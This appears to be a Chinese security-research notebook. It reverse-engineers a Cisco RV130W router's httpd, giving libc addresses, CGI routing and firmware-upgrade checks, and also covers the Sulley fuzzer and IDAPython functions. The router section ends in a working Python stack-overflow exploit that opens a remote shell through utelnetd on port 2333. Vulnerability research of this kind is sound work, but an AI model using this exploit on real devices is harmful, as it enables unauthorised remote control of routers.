+ CVE-2020-3331的细节中说明并未影响`RV130W`，且此洞在其当时最新版本仍然存在
+ [Exploiting CVE-2019-1663](https://quentinkaiser.be/exploitdev/2019/08/30/exploit-cve-2019-1663/)
+ [Breaking Cisco RV110W, RV130, RV130W, and RV215W. Again.](https://quentinkaiser.be/exploitdev/2020/07/14/breaking-cisco-rv-again/)
+ [Ghetto Patch Diffing a Cisco RV110W Firmware Update](https://quentinkaiser.be/exploitdev/2020/09/23/ghetto-patch-diffing-cisco/)
+ [Patch Diffing a Cisco RV110W Firmware Update (Part II)](https://quentinkaiser.be/exploitdev/2020/10/01/patch-diffing-cisco-rv110/)

### libc基址

买回来一个二手的，里面的固件是1.2.1.4版本的，存在命令注入，利用这一点查看libc的基址：

以下所有基址都不会变，以后可能用得到(stack变了)

```bash
# cat /proc/878/maps
cat /proc/878/maps
00400000-00490000 r-xp 00000000 1f:02 756        /usr/sbin/httpd
004d0000-004d8000 rw-p 00090000 1f:02 756        /usr/sbin/httpd
004d8000-004ec000 rwxp 004d8000 00:00 0          [heap]
2aaa8000-2aaad000 r-xp 00000000 1f:02 711        /lib/ld-uClibc.so.0
2aaad000-2aaae000 rw-p 2aaad000 00:00 0 
2aaae000-2aabe000 r--s 00000000 00:0b 436        /dev/nvram
2aaec000-2aaed000 r--p 00004000 1f:02 711        /lib/ld-uClibc.so.0
2aaed000-2aaee000 rw-p 00005000 1f:02 711        /lib/ld-uClibc.so.0
2aaee000-2aaf2000 r-xp 00000000 1f:02 1017       /usr/lib/libnvram.so
2aaf2000-2ab32000 ---p 2aaf2000 00:00 0 
2ab32000-2ab33000 rw-p 00004000 1f:02 1017       /usr/lib/libnvram.so
2ab33000-2ab75000 r-xp 00000000 1f:02 1026       /usr/lib/libshared.so
2ab75000-2abb5000 ---p 2ab75000 00:00 0 
2abb5000-2abb9000 rw-p 00042000 1f:02 1026       /usr/lib/libshared.so
2abb9000-2abbd000 rw-p 2abb9000 00:00 0 
2abbd000-2abcc000 r-xp 00000000 1f:02 1027       /usr/lib/libcbt.so
2abcc000-2ac0b000 ---p 2abcc000 00:00 0 
2ac0b000-2ac0c000 rw-p 0000e000 1f:02 1027       /usr/lib/libcbt.so
2ac0c000-2ac0e000 r-xp 00000000 1f:02 712        /lib/libdl.so.0
2ac0e000-2ac4d000 ---p 2ac0e000 00:00 0 
2ac4d000-2ac4e000 r--p 00001000 1f:02 712        /lib/libdl.so.0
2ac4e000-2ac4f000 rw-p 00002000 1f:02 712        /lib/libdl.so.0
2ac4f000-2ae14000 r-xp 00000000 1f:02 1023       /usr/lib/libcrypto.so
2ae14000-2ae54000 ---p 2ae14000 00:00 0 
2ae54000-2ae6a000 rw-p 001c5000 1f:02 1023       /usr/lib/libcrypto.so
2ae6a000-2ae6d000 rw-p 2ae6a000 00:00 0 
2ae6d000-2aec0000 r-xp 00000000 1f:02 1029       /usr/lib/libssl.so
2aec0000-2aeff000 ---p 2aec0000 00:00 0 
2aeff000-2af04000 rw-p 00052000 1f:02 1029       /usr/lib/libssl.so
2af04000-2af14000 r-xp 00000000 1f:02 702        /lib/libgcc_s.so.1
2af14000-2af53000 ---p 2af14000 00:00 0 
2af53000-2af54000 rw-p 0000f000 1f:02 702        /lib/libgcc_s.so.1
2af54000-2afab000 r-xp 00000000 1f:02 703        /lib/libc.so.0		#<=======
2afab000-2afeb000 ---p 2afab000 00:00 0 
2afeb000-2afec000 r--p 00057000 1f:02 703        /lib/libc.so.0
2afec000-2afed000 rw-p 00058000 1f:02 703        /lib/libc.so.0
2afed000-2aff2000 rw-p 2afed000 00:00 0 
7f876000-7f88b000 rwxp 7f876000 00:00 0          [stack]
```


### 后续---逆向——guest_logout_cgi如何被调用的

之前用交叉引用只能追溯到一个调用它的函数(这里函数美化了一下)：

```c
void invoke_guest_logout(char *URI,FILE *connt_fd)

{
  char *pcVar1;
  char *apcStack32 [2];
  
  if (post == 1) {
    apcStack32[0] = post_buf;
    pcVar1 = URI;
  }
  else {
    apcStack32[0] = URI;
    pcVar1 = strsep(apcStack32,"?");
    if (pcVar1 == (char *)0x0) {
      pcVar1 = URI;
    }
    init_cgi(apcStack32[0]);
    if (apcStack32[0] == (char *)0x0) {
      return;
    }
  }
  init_cgi(apcStack32[0]);
  guest_logout_cgi(connt_fd,0,0,0,URI,pcVar1,apcStack32[0]);
  init_cgi(0);
  return;
}
```

那么应该用到了函数表进行动态调用。故从main开始分析(**当然也不是硬看，作为一个web服务器肯定有明显的http包读取，uri解析这样的特征**)

找到这一段，这样package，conn_fd这样重要的参数就确定了

```c
      iVar7 = wfgets(package,10000,conn_fp);
      if (iVar7 == 0) {
        URI = "Request timeout.";
        pcVar24 = "No request found.";
        uVar19 = 0x198;
        goto LAB_0041f5cc;
      }
      iVar7 = strncasecmp(package,"GET",3);
      if ((iVar7 == 0) || (iVar7 = strncasecmp(package,"POST",4), iVar7 == 0)) {
        local_595c = package;
        strsep(&local_595c," ");
        URI = local_595c;
        if (local_595c == (char *)0x0) {
          error_sender(400,"Bad Request (3)",0,"Can\'t parse request.");
          goto LAB_0041f164;
        }
```

然后下面有一段巨长的字符处理逻辑：

```c
        iVar7 = wfgets(URI,puVar23,conn_fp);
        if (iVar7 != 0) {
          while( true ) {
            iVar7 = strcmp(URI,"\n");
            if ((iVar7 == 0) || (iVar7 = strcmp(URI,"\r\n"), iVar7 == 0)) goto LAB_0041efe4;
            iVar7 = strncasecmp(URI,"Authorization:",0xe);
            if (iVar7 != 0) break;
            URI = URI + 0xe;
            local_5954 = URI;
            len = strspn(URI," \t");
            URI = URI + len;
            local_5954 = URI;
            len = strlen(URI);
            URI = URI + len + 1;
            puVar23 = local_48 + -(int)URI;
            iVar7 = wfgets(URI,puVar23,conn_fp);
            if (iVar7 == 0) goto LAB_0041efe4;
          }
          iVar7 = strncasecmp(URI,"Content-Length:",0xf);
          if (iVar7 == 0) {
            pcVar12 = URI + 0xf;
            local_5954 = pcVar12;
            len = strspn(pcVar12," \t");
            local_5954 = pcVar12 + len;
            nums = strtoul(local_5954,(char **)0x0,0);
          }
          else {
            local_5954 = strstr(URI,"boundary=");
            if (local_5954 == (char *)0x0) {
              iVar7 = strncasecmp(URI,"Host:",5);
              if (iVar7 == 0) {
                URI = URI + 6;
                local_5954 = URI;
                len = strspn(URI," \t");
                pcVar24 = URI + len;
                local_5954 = pcVar24;
                len = strlen(pcVar24);
                URI = pcVar24 + len + 1;
                len = strlen(pcVar24);
                pcVar12 = pcVar24 + (len - 1);
                if (pcVar24 < pcVar12) {
                  do {
                    cVar1 = *pcVar12;
                    if (((cVar1 != '\n') && (cVar1 != '\r')) && (cVar1 != ' ')) {
                      puVar23 = local_48 + -(int)URI;
                      goto LAB_0041eef4;
                    }
                    *pcVar12 = '\0';
                    pcVar12 = pcVar12 + -1;
                  } while (pcVar24 < pcVar12);
                  puVar23 = local_48 + -(int)URI;
                }
                else {
                  puVar23 = local_48 + -(int)URI;
                }
              }
            }
            else {
              local_68 = local_5954 + 9;
              cVar1 = local_5954[9];
              if (((cVar1 == '\0') || (cVar1 == '\r')) || (cVar1 == '\n')) {
                *local_68 = '\0';
                URI = local_5954 + 10;
                puVar23 = local_48 + -(int)URI;
                local_5954 = URI;
              }
              else {
                pcVar12 = local_5954 + 10;
                do {
                  URI = pcVar12;
                  cVar1 = *URI;
                  if ((cVar1 == '\0') || (cVar1 == '\r')) break;
                  pcVar12 = URI + 1;
                } while (cVar1 != '\n');
                *URI = '\0';
                URI = URI + 1;
                puVar23 = local_48 + -(int)URI;
                local_5954 = URI;
              }
            }
          }
          goto LAB_0041eef4;
        }
```

前面读取http包那么这里肯定就是解析处理了，gdb调试直接看执行完的结果就行。

> 调试有个坑就是：前面有个`daemon(1,1)`函数，让程序在后台运行，我不知道怎么attach上去，就索性patch掉，然后调试起来就非常方便了

接下来是一堆与硬件相关的函数nvram_get之类的，对我们的分析没啥用，直到下面开始解析uri(我们gdb时uri是：/guest_logout.cgi)：

```c
        cVar1 = *URI;
        if ((((cVar1 != '/') && (iVar7 = strcmp(URI,".."), iVar7 != 0)) &&
            (iVar7 = strncmp(URI,"../",3), iVar7 != 0)) &&
           ((pcVar24 = strstr(URI,"/../"), pcVar24 == (char *)0x0 &&
            (iVar7 = strcmp((char *)((int)URI + (len - 3)),"/.."), iVar7 != 0)))) {
          pcVar24 = (char *)((int)URI + (len - 1));
          iVar7 = strcmp(pcVar24,"/");
          if ((iVar7 == 0) && (uVar19 = 400, 0 < (int)len)) {
            URI = "Bad Request (9)";
            pcVar24 = "Illegal filename.";
            goto LAB_0041f5cc;
          }
            ......
          /*这里比较关键：mime_handlers分享出来是一个指针结构体，存放特征字符串和处理函数*/      
 /*
 struct {
 	char *Str_0;
 	char *Str_1;
 	char *Str_2;
 	void *Func_0;
 	void *Func_1;
 	void *Func_2;
 }
 */        
          func_table = mime_handlers;
          pcVar24 = mime_handlers[0].Str_0;
          while (pcVar24 != (char *)0x0) {
            iVar7 = local_travel(pcVar24,URI);		//这里用`guest_logout.cgi`和这些结构体中的特征字符串比较，比较成功返回1
            if (iVar7 != 0) {
              if (do_onplus == 0) {
                if ((code *)func_table->Func_2 != (code *)0x0) {
                  (*(code *)func_table->Func_2)(0x4d80bc,0x4d80fc,&DAT_004d8140);
                  auth_fail = 0;               
```

gdb中调试得到字符串匹配时：

```bash
gef➤  x/8wx 0x407fb7f6
0x407fb7f6:	0x54544800	0x2e312f50	0x000a0d31	0x74736f48
0x407fb806:	0x2e30203a	0x2e302e30	0x00000030	0x74000a0d
gef➤  x/8wx 0x004d48b0
0x4d48b0 <mime_handlers+936>:	0x0047fd68	0x0047ef4c	0x004d12c0	0x00429b68
0x4d48c0 <mime_handlers+952>:	0x00431eec	0x00000000	0x004853ac	0x0047ef4c
gef➤  x/8s 0x0047fd68
0x47fd68:	"guest_logout.cgi"
0x47fd79:	""
0x47fd7a:	""
0x47fd7b:	""
0x47fd7c:	"ipv6_test.asp"
0x47fd8a:	""
0x47fd8b:	""
0x47fd8c:	"rdt_download.asp"
gef➤  x/8i 0x00429b68
   0x429b68 <do_apply_post>:	lui	gp,0xb
   0x429b6c <do_apply_post+4>:	addiu	gp,gp,21592
   0x429b70 <do_apply_post+8>:	addu	gp,gp,t9
   0x429b74 <do_apply_post+12>:	addiu	sp,sp,-1064
   0x429b78 <do_apply_post+16>:	sw	ra,1060(sp)
   0x429b7c <do_apply_post+20>:	sw	s2,1056(sp)
   0x429b80 <do_apply_post+24>:	sw	s1,1052(sp)
   0x429b84 <do_apply_post+28>:	sw	s0,1048(sp)
gef➤  x/8i 0x00431eec
   0x431eec:	lui	gp,0xb
   0x431ef0:	addiu	gp,gp,-12076
   0x431ef4:	addu	gp,gp,t9
   0x431ef8:	addiu	sp,sp,-72
   0x431efc:	sw	ra,64(sp)
   0x431f00:	sw	s3,60(sp)
   0x431f04:	sw	s2,56(sp)
   0x431f08:	sw	s1,52(sp)
```

然后执行流到达：

```c
  iVar11 = strcmp(URI,"login.asp");
  if (((iVar11 != 0) && ((code *)func_table->Func_0 != (code *)0x0)) &&
     ((*(code *)func_table->Func_0)(URI,conn_fp,nums,local_68), do_ssl == 0
                    /* post参数处理 */)) {
    iVar11 = fileno(conn_fp);
    uVar17 = fcntl(iVar11,3);
```

调用了指针表中的第一个函数(**do_apply_post**)指针进行处理.分析一下do_apply_post函数：

```c

void do_apply_post(char *URI,FILE *connfd,uint nums)
{
  FILE *__s;
  int iVar1;
  size_t sVar2;
  undefined auStack1040 [1024];
  
  if (post == 1) {
    if (nums < 40000) {
      iVar1 = wfread(post_buf,1,nums,connfd);
      if (iVar1 != 0) {
        post_buf[iVar1] = 0;
        sVar2 = strlen(post_buf);
        iVar1 = (nums - sVar2) + -1;
        if (0 < iVar1) {
          do {
            iVar1 = iVar1 + -1;
            wfgets(auStack1040,1,connfd);
          } while (iVar1 != 0);
        }
        init_cgi(post_buf);		//<======
        return;
      }
    }
    else {
      __s = fopen("/dev/console","w");
      if (__s != (FILE *)0x0) {
        fwrite("The POST data exceed length limit!\n",1,0x23,__s);
        fclose(__s);
        return;
      }
    }
  }
  return;
}

```

经过gdb调试可以发现nums的值是post方法时参数的长度，直接看结果(**post_buf**)：

```bash
gef➤  x/8s 0x4d81b0
0x4d81b0 <post_buf>:	"cmac"
0x4d81b5 <post_buf+5>:	"00:01:6C:06:A6:29"
```

可以看到init_cgi函数将传参带入的分割符截断了。

继续跟流程：

```c
    /*把http头发过来了*/
	else {
      iVar11 = strcmp(URI,"guestnetwork.cgi");
      if (iVar11 != 0) {
        send_headers(200,&DAT_0047d744,func_table->Str_2,func_table->Str_1);
      }
    }
.....
LAB_00421040:
/*终点*/
        iVar7 = strcmp(URI,"login.asp");
        if ((iVar7 == 0) && (local_60 != 0)) {
          do_ej("alert_msg.asp",conn_fp);
          wfprintf(conn_fp,"<script>show_alert();</script>\n");
          wfflush(conn_fp);
        }
        else {
                    /* guest_logout调用点 */
          (*(code *)func_table->Func_1)(URI,conn_fp);
        }    
```

终于调用指针表的第二个函数，跟进去看看其实就是`invoke_guest_logout`然后调用`geust_logout.cgi`:

```c
if (post == 1) {
    apcStack32[0] = post_buf;		//参数buf
    pcVar1 = URI;
  }
  ....
  init_cgi(apcStack32[0]);			//处理
  guest_logout_cgi(connt_fd,0,0,0,URI,pcVar1,apcStack32[0]);  
  init_cgi(0);
```

到这里这cgi的路由和参数都分析完了。


### 后续---逆向——web界面固件升级

进入后台使用固件升级功能然后抓个包：



这里除了前面几个分割线，后面就是bin文件的二进制格式，来看看是如何解析这个http包的。同之前逆guest_logout的uri一样找到`do_upgrade_post`函数该函数也是处理参数的类似功能。

```c
/*该循环通过关键字确定升级类型*/  
do {
    do {
      handle_chunk = iVar2 + 1;
      if (iVar2 < 1) goto LAB_00446fb0;
      if (0x400 < handle_chunk) {
        handle_chunk = 0x400;
      }
      iVar2 = wfgets(buf,handle_chunk,confd);
      if (iVar2 == 0) {
        return;
      }
      sVar3 = strlen(buf);
      iVar2 = siz_loc - sVar3;
      siz_loc = iVar2;
      iVar4 = strncasecmp(buf,"Content-Disposition:",0x14);
    } while (iVar4 != 0);
                    /* post参数中的关键字 */
    key_ptr = strstr(buf,"factory_default");
    if (key_ptr != (char *)0x0) {
      need_default = 1;
    }
    key_ptr = strstr(buf,"name=\"Is_lang_file\"");
    if (key_ptr != (char *)0x0) {
      file_type = 4;
    }
    key_ptr = strstr(buf,"name=\"file\"");
    if (key_ptr != (char *)0x0) {
                    /* 更新key */
      upgrading = 1;
      goto LAB_00446fb0;
    }
    key_ptr = strstr(buf,"name=\"restore\"");
                    /* 以上循环寻找关键字 */
  } while (key_ptr == (char *)0x0);
.....
    /*读取*/
  if (file_type == 4) {
    lang_flg = 1;
    DAT_004e1764 = lang_upgrade(0,confd,&siz_loc,4,cont_loc);
  }
  else {
                    /* 二进制文件读取 */
    DAT_004e1764 = sys_upgrade(0,confd,&siz_loc,file_type);
  }
```

然后进入`int sys_upgrade(int par_0,FILE *confd,int *size,int file_type)`函数：

```c
                    /* bin文件开始读入 */
          readn = wfread(hanlde_chunk,1,read_size,confd);
          gotn = gotn + readn;
		......
         ......   
                    /* 获取特定位置firmware鉴别信息 */
          snprintf(buf_check,0x28,"v%d.%d.%d.%d",(int)hanlde_chunk[0xb],(int)hanlde_chunk[0xc],
                   (int)hanlde_chunk[0xd],(uint)(byte)hanlde_chunk[0x13]);
          size_loc = strcmp(buf_check,"v0.0.28.1");
          if (size_loc != 0) {
            size_loc = strcmp(buf_check,"v0.0.29.0");
            if ((size_loc != 0) && (size_loc = memcmp(hanlde_chunk + 4,&IF_CODE,4), size_loc != 0))
            {
              pFVar3 = fopen("/dev/console","w");
              if (pFVar3 != (FILE *)0x0) {
                fprintf(pFVar3,"\n %s(), this is not firmware file\n","sys_upgrade");
                goto LAB_00445820;
              }
              goto LAB_00445dfc;
            }
          }
                    /* 鉴别信息2 */
          size_loc = memcmp(hanlde_chunk,&FIR_VERSION,4);
          if (size_loc != 0) {
            pFVar3 = fopen("/dev/console","w");
            if (pFVar3 != (FILE *)0x0) {
              fwrite("code pattern error!\n",1,0x14,pFVar3);
              fclose(pFVar3);
            }
            local_50 = 1;
            *hanlde_chunk = '\0';
            hanlde_chunk[1] = '\0';
            hanlde_chunk[2] = '\0';
            hanlde_chunk[3] = '\0';
            goto LAB_00445344;
          }
                    /* 鉴别信息3 */
          size_loc = strcmp(hanlde_chunk + 4,(char *)&IF_LANG);
          if (size_loc != 0) {
            pFVar3 = fopen("/dev/console","w");
            if (pFVar3 != (FILE *)0x0) {
              fwrite("it\'s code.bin\n",1,0xe,pFVar3);
              fclose(pFVar3);
            }
```

该函数会提取并验证bin文件中特定位置的值，比对版本等，因此虽然这也是squashfs文件系统但压缩算法是有差别的，所以如果直接用`mksquashfs`重新打包固件刷入路由器固件直接GG


#### 小结

对于这样用指针表动态调用的函数(虚函数表)，需要找到**关键的遍历点**，还有**建立结构体**

但我不知道为啥那个结构体引存放了`geust_logout.cgi`函数，但是交叉引用看不出来，我猜也许是应为这里既不属于函数区域，也不属于字符串区域所以IDA或者ghidra没有对这里进行分析


### Exp

```python
#!/usr/bin/env python
from pwn import *
import requests
import sys

context.arch = "mips"
context.endian = "little"
libc_addr = 0x40d0d000#0x2af98000  
system_off = 0x004C7E0

gadget_0 = 0x000257A0			#addiu $a0,$sp,0x58+var_40                           |  jalr  $s0

# ./poc url back_ip
cmd = "/usr/sbin/utelnetd -p2333 -l/bin/sh"
url = sys.argv[1] + '/guest_logout.cgi'

def pwn():
	payload = p32(system_off + libc_addr)		#s0
	payload += p32(0xdeadbeef)*8	#s1-s7 ,fp
	payload += p32(gadget_0 + libc_addr)		#ra
	payload += '*'*0x18
	payload += cmd

	body = {
	"cmac":"00:01:6C:06:A6:29",
	"cip":"192.168.1.0",
	"submit_button":"status_guestnet.asp"+"A"*49 + payload}

	attack = requests.post(url=url, data=body)

if __name__ == '__main__':
	pwn()
    
'''succeed！
26423 rt_sigaction(SIGCHLD,0x407faab0,0x407faad0) = 0
26423 execve("/bin/sh",{"sh","-c","/usr/sbin/utelnetd -p2333 -l/bin/sh",NULL}) = -1 errno=2 (No such file or directory)
26423 exit(127)
''' 
```

# Fuzz工具使用

总的来说，fuzz就是用大量数据输入并且确定某些特定的输入可以让目标程序崩溃或者执行非预期操作。比如向web服务器发送http包，我们要进行fuzz时需要对其某些字段(基于fuzz粒度)数据畸形化，然后发送给服务器并监视其对应服务是否正常运行，如果发送后停止服务所民该fuzz包有效。

以上是基于数据异变的fuzz测试，还有基于协议的，也就是根据协议来生成针对性的fuzz数据

## Sulley

**渲染和异变**：渲染指的是将替代数据以raw data表示，异变也就是替换原始数据

**数据替代**(基元)：替代那些你想要进行fuzz的数据段，以及你不想进行fuzz的数据，用以下对象表示

+ 静态数据：不需要fuzz

  + s_static("static 值", name="")：s_dunno（），s_raw（）和s_unknown（）都是s_static（）的别名

  + 用static表示那个不需要fuzz的值， 可选参数name来对该基元来快速访问

  + s_binary()：差不多，就是用于表示以下格式的数据

    + s_binary("0xde 0xad be ef \xca fe 00 01 02 0xba0xdd f0 0d", name="complex")
  
+ 动态数据：用于fuzz异变，注意**动态数据所有基元函数默认是参与fuzz的**
  + s_random()：用于生成不同长度的随机数据
    + 必要参数：'min_length'和'max_length'表示最小长度和最大长度
    + 可选参数：
      + num_mutations(integer, default=25)：异变次数
      + fuzzable(boolean, default=True)：是否参与fuzz测试
      + name (string, default=None) 
  + s_delim()：专门为了代替分隔符，比如http中url：/index.html 其中`/` 和`.`都是分隔符
    + 可选参数：fuzzable， name
    + 异变：包括重复，替换，排除变换
  + s_string()：代替普通的字符串如password，Email，username，可选参数如下，必要参数：初始值
    + size (integer, default=-1)：指定这段数据大小，如果是-1就是动态变化
    + padding(character, default='\x00')：填充字符，当生成的字符串小于指定的size
    + encoding (string, default="ascii")：指定编码，其可接受类型和python的str.encode一样
    + fuzzable，name
  + 专门代替数值的：比如http中的Content-Length、
    + 1 byte: s_byte(), s_char() 
    +  2 bytes: s_word(), s_short() 
    + 4 bytes: s_dword(), s_long(), s_int() 
    + 8 bytes: s_qword(), s_double()
    + 可选参数如下：至少一个初始值参数
      +  endian(character, default='<')：存储的大小端序，'<'小端序，'>'大端序
      + format(string, default="binary")：输出形式，可以实binary和ascii，例100用ascii就是`"100"` 用binary是`"\x64"`
      +  signed(boolean, default=False)：当format为ascii时有效 ，**功能待定**
      + full_range(boolean, default=False) ：是否遍历所有可能数据
        + 比如替代值是一个DWORD有4,294,967,295个可能数值，每秒进行10次测试，那会需要13年
        + 因此Sulley默认使用那些特殊的数值`smart values` ,比如最小值和最大值
      + fuzzable，name

**举个栗子**：fuzz 一个html的tag：`<BODY bgcolor="black">`

```python
s_delim("<")
s_string("BODY")
s_delim(" ")
s_string("bgcolor")
s_delim("=")
s_delim("\"")
s_string("black")
s_delim("\"")
s_delim(">")
```


### **请求构造**

光替代了你要fuzz的数据还不够，你还得构造请求体。用`s_initialize(name)`初始化一个名为name的请求体，然后就可以往请求体里面添加基元，块或者嵌套块

#### 块构造

大部分的基元都会放在块中，以块的形式来组织就像http包的组织形式。以`s_block_start() `开始，`s_block_end()`结束。重点的s_block_start有以下参数：

+ group(string, default=None)：这个块属于哪个组
+ encoder(function pointer, default=None) ：下文解释
+ dep: (string, default=None)：见下文dependence
+ dep_value: (mixed, default=None)：见下文dependence
+ dep_values: (list of mixed types, default=[])：见下文dependence
+ dep_compare (string, default="==") ：见下文dependence

> 顾名思义就是这个快的存在依赖于。。。先dep指定依赖的**基元**，然后根据期望条件(dep_compare)去比对基元与dep_value或dep_values的值，**比对成立则该block有效**。例
>
> ```python
> #s_short("opcode", full_range=True)  #原文，初始参数因该不能是字符串
> s_short(10, name="opcode", full_range=True)
> # opcode 10 expects an authentication sequence.当opcode出现10的时候有效
> if s_block_start("auth", dep="opcode", dep_value=10):
>      s_string("USER")
>      s_delim(" ")
>      s_string("pedram")
>      s_static("\r\n")
>      s_string("PASS")
>      s_delim(" ")
>      s_delim("fuzzywuzzy")
> s_block_end()
> # opcodes 15 and 16 expect a single string hostname.当opcode为15或16时有效
> if s_block_start("hostname", dep="opcode", dep_values=[15, 16]):
>  	s_string("pedram.openrce.org")
> s_block_end()
> # the rest of the opcodes take a string prefixed with two underscores.	剩下的opcode情况不等于10，15，16时有效
> if s_block_start("something", dep="opcode", dep_values=[10, 15, 16], dep_compare="!="):
>      s_static("__")
>      s_string("some string")
> s_block_end()
> 
> ```
>
> 

注意：块a和块b平起平坐，a中引用了b，在之后的变换，b数据不会反馈回a，也就是说size(block-b)中的block-b不会变----解决方法，将size(block-b)放到块a的外面

```bash
block-a:
 integer
 string
 size(block-b)
block-b:
 integer
 integer
```

> encoder的存在是为了在将生成的数据发送给目标的这一阶段**做最后的编码操作**。
>
> 以Trend Micro ConTrol Manager的DcsProcessor.exe守护进程为例，该进程监听TCP端口20901，对收到的数据进行xor解码操作(decoder)，因此我们发送数据前针对性的进行编码，将会极大提升fuzz效率。
>
> ```python
> def trend_xor_encode (str):
>      key = 0xA8534344
>      ret = ""
>     # pad to 4 byte boundary.
>      pad = 4 - (len(str) % 4)
>      if pad == 4:
>          pad = 0
>          str += "\x00" * pad
>      while str:
>          dword = struct.unpack("<L", str[:4])[0]
>          str = str[4:]
>          dword ^= key
>          ret += struct.pack("<L", dword)
>          key = dword
> 	 return ret
> 
> ```

对encoder函数的规定：一个参数(str)，返回编码后的值

#### 组构造

用s_group()来定义一个组，参数为：name和一个列表，这个列表一般会指定组下成员的操作码或行为用于遍历。例，以下是一个完整的Sulley请求体，用于对某web服务器进行fuzz：

```python
from sulley import *
# this request is for fuzzing: {GET,HEAD,POST,TRACE} /index.html HTTP/1.1
# define a new block named "HTTP BASIC".
s_initialize("HTTP BASIC")
# define a group primitive listing the various HTTP verbs we wish to fuzz.
s_group("verbs", values=["GET", "HEAD", "POST", "TRACE"])  #针对http的方法，使用该列表针对性的fuzz
# define a new block named "body" and associate with the above group.
if s_block_start("body", group="verbs"):	
# break the remainder of the HTTP request into individual primitives.这个block fuzz的目标时http的请求行，可以看到其fuzz的粒度很细
     s_delim(" ")
     s_delim("/")
     s_string("index.html")
     s_delim(" ")
     s_string("HTTP")
     s_delim("/")
     s_string("1")
     s_delim(".")
     s_string("1")
    # end the request with the mandatory static sequence.
     s_static("\r\n\r\n")
    # close the open block, the name argument is optional here.
 s_block_end("body")
```

描述：先申明初始化一个请求体，名为`HTTP BASIC`， 然后针对http的请求方法，造包含4个行为的组名为`verbs`。定义块，附属于组verbs，替代对象是http包的请求行。

>+ s_block_start总是返回True，在前面放一个if可以方便的将整个块注释掉
>+ 流程：将该请求载入Sulley的一个会话中，fuzzer会根据gruop中每个动作生成所有可能的block
>+ group可以是单独的，不关联任何block

### Block helper

以下介绍对block操作的函数，用于数据生成等

#### s_sizer(sizers)

**第一个参数**为block的name标识，用于计算对应block(fuzz后的)的大小。以下可选参数：

+ length(integer, default=4)：返回的size所占大小
+ endian: (character, default='<')
+ format(string, default="binary")：输出格式
+  inclusive(boolean, default=False)：是否将s_sizer返回值也算入长度
+ signed: (boolean, default=False)
+  math(functon, default=None) ：使用function指定函数的计算操作
+ fuzzable(boolean, default=False) ：返回值是否参与fuzz
+ • fuzzable: (boolean, default=False) 

sizers在面对替代某些复杂的**协议**数据时是一个很重要的工具。在生成fuzz数据时他会动态计算block的长度。在默认情况下**其返回的长度不参与fuzz**

#### Checksums

s_checksum函数的**第一个参数为block标识**，将会计算对应block的校验和(比如sha1，md5)，可选参数如下：

+ algorithm(string or function pointer, default="crc32")：指定校验和算法，可用字符串指定(crc32, adler32, md5, sha1)算法，或者自己编写函数
+ endian: (character, default='<') 
+ length(integer, default=0)：返回值长度，置零自动计算
+ name: (string, default=None) 

#### Repeaters

s_repeater的第一个参数也是block标识，用于多次复制目标块。对于目标需要解析含有多个元素的参数表时很有用，用来测试溢出。其必要参数为：block name，最小复制次数，最大复制次数。可选参数如下：

+ step(integer, default=1)：最小次数和最大次数的步长
+ step：(integer, default=1)
+ name: (string, default=None)

例，我们要对某协议的一部分进行fuzz测试，其形式是字符串表，每个条目由：2字节字符串type字段， 2字节的长度字段，一个字符串字段， 以及最后的校验和字段(CRC32，计算字符串字段)。不知道文件类型，所以用随机数据替代，Sulley脚本如下：

```python
# table entry: [type][len][string][checksum]
if s_block_start("table entry"):
    # we don't know what the valid types are, so we'll fill this in with random data.
     s_random("\x00\x00", 2, 2)
    # next, we insert a sizer of length 2 for the string field to follow.
     s_size("string field", length=2)
    # block helpers only apply to blocks, so encapsulate the string primitive in one.
    if s_block_start("string field"):	
        # the default string will simply be a short sequence of C's.
         s_string("C" * 10)
     s_block_end()
    # append the CRC-32 checksum of the string to the table entry.
     s_checksum("string field")
s_block_end()
# repeat the table entry from 100 to 1,000 reps stepping 50 elements on each iteration.
s_repeat("table entry", min_reps=100, max_reps=1000, step=50)
```


### Sessions

定义好一些请求体后，就可以把他们绑定到session中。例：

```python
from sulley import *
#定义了5个请求体
s_initialize("helo")
s_static("helo")
s_initialize("ehlo")
s_static("ehlo")
s_initialize("mail from")
s_static("mail from")
s_initialize("rcpt to")
s_static("rcpt to")
s_initialize("data")
s_static("data")
sess = sessions.session()		#根节点
sess.connect(s_get("helo"))		#分支1
sess.connect(s_get("ehlo"))		#分之2
sess.connect(s_get("helo"), s_get("mail from"))	#分支1指向`mail from`
sess.connect(s_get("ehlo"), s_get("mail from"))	#分支2也指向`mail from`
sess.connect(s_get("mail from"), s_get("rcpt to"))	#`mail from`指向`rcpt to`
sess.connect(s_get("rcpt to"), s_get("data"))	#`rcpt to`指向`data`
fh = open("session_test.udg", "w+")
fh.write(sess.render_graph_udraw())		#fuzz路径生成
fh.close()
```

路径可视化如下：


我们先定义好所有的请求，然后安先后顺序建立连接，在fuzz时从根走到底依次fuzz对应请求。这里先fuzz `helo`，完成使用前一步fuzz的可行数据后往下fuzz `mail from`，完成后用前面的可行数据`helo`和`mail from`继续进行`rcpt to`的fuzz，完成后进行`data` fuzz。然后从`ehlo`路径出发进行fuzz

由于sulley安装较为困难，且不在维护，使用boofuzz，他是基于sulley的，请求体，基元使用方法很类似


# IDAPython

核心有如下三个python模块：

> 1. idc模块负责提供IDC中所有的函数功能。
> 2. idautils提供大量的实用函数，其中许多函数可生成各种数据库相关对象(如函数或交叉引用)的python列表。
> 3. idaapi 允许使用者通过类的形式，访问更多底层的数据 。

## idc常用

### 函数

+ here()，get_screen_ea()获取光标所在的地址

+ get_inf_attr(idc.INF_MIN_EA), get_inf_attr(idc.INF_MIN_EA)分别获取当前地址空间最小和最大地址

+ get_segm_name(addr)：获取某地址所在的段名字

+ GetDisasm(addr)：获取某地址的汇编代码

+ print_insn_mnem(addr)：获取某指令的操作码

+ print_operand(addr, idx)：获取某地址汇编码的第idx个操作数

+ get_segm_start(addr)， get_segm_end（addr）：获取某地址所在的段首，段尾

+ get_func_name（addr）：获取某地址所在的函数名

+ get_func_attr(here(), FUNCATTR_START)，get_func_attr(here(), FUNCATTR_END)：获取当前地址函数的边界

+ get_name_ea_simple（str）：利用函数名寻址对应函数地址

+ next_head(curr_addr,end)：返回处于`curr_addr`和`end`之间的下一条指令地址，如果没有返回`idc.BADADDR`(即0xffffffff)

